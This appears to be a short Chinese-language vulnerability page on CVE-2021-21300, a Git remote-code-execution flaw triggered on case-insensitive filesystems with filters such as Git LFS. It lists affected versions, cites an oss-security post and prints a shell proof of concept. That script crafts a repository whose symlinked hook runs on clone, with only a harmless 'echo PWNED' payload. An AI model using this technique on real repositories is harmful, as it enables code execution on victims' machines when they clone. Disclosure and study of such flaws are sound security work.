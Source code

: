 # Git-for-Visual-Studio远程执行代码漏洞-CVE-2021-21300

## 漏洞描述

此漏洞影响具有不区分大小写的文件系统的平台，当某些过滤器被使用时（例如Git LFS）。Git可能会被欺骗运行克隆期间的远程代码。

## 漏洞影响

> [!NOTE]
>
> v2.17.6，v2.18.5，v2.19.6，v2.20.5，v2.21.4，
> v2.22.5，v2.23.4，v2.24.4，v2.25.5，v2.26.3，v2.27.1，v2.28.1，v2.29.3，
> v2.30.2。

## 漏洞复现

暂无复现

参考文章: https://www.openwall.com/lists/oss-security/2021/03/09/3

## 漏洞利用POC

```sh
#!/bin/sh

git init delayed-checkout &&
(
  cd delayed-checkout &&
  echo "A/post-checkout filter=lfs diff=lfs merge=lfs" \
  	>.gitattributes &&
  mkdir A &&
  printf '#!/bin/sh\n\necho PWNED >&2\n' >A/post-checkout &&
  chmod +x A/post-checkout &&
  >A/a &&
  >A/b &&
  git add -A &&
  rm -rf A &&
  ln -s .git/hooks a &&
  git add a &&
  git commit -m initial
) &&
git clone delayed-checkout cloned
```

